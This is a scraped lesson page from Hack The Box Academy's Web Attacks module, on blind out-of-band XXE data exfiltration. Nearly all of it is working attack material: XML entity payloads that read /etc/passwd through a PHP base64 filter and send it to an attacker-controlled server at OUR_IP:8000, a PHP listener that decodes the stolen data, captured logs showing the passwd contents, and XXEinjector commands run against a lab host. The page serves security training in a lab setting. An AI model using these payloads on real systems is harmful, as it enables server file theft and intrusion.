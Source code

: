<!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1207
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1207
// Section Title: Blind Data Exfiltration
// Page Title: Hack The Box - Academy
// Page Number: 16
-->

# Blind Data Exfiltration

**Module Name:** Web Attacks **Page Number:** 16

#### 

#### WEB ATTACKS

# Blind Data Exfiltration

## Out-of-band Data Exfiltration

``` xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

``` php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

``` shell-session
[!bash!]$ vi index.php # here we write the above PHP code
[!bash!]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

``` shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

## Automated OOB Exfiltration

``` shell-session
[!bash!]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

``` http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

``` shell-session
[!bash!]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

``` shell-session
[!bash!]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

# 

# 

#### Questions

####